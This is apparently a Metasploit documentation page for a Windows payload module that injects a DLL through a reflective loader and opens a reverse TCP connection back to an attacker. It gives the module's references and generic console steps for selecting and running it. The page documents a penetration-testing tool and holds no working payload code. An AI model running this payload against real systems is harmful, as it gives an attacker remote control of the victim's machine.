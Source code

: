 ## Reflective DLL Injection, Reverse TCP Stager (No NX or Win7)

Inject a DLL via a reflective loader. Connect back to the 
attacker (No NX)


## Module Name
payload/windows/dllinject/reverse_nonx_tcp

## Authors
* sf
* vlad902


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/dllinject/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    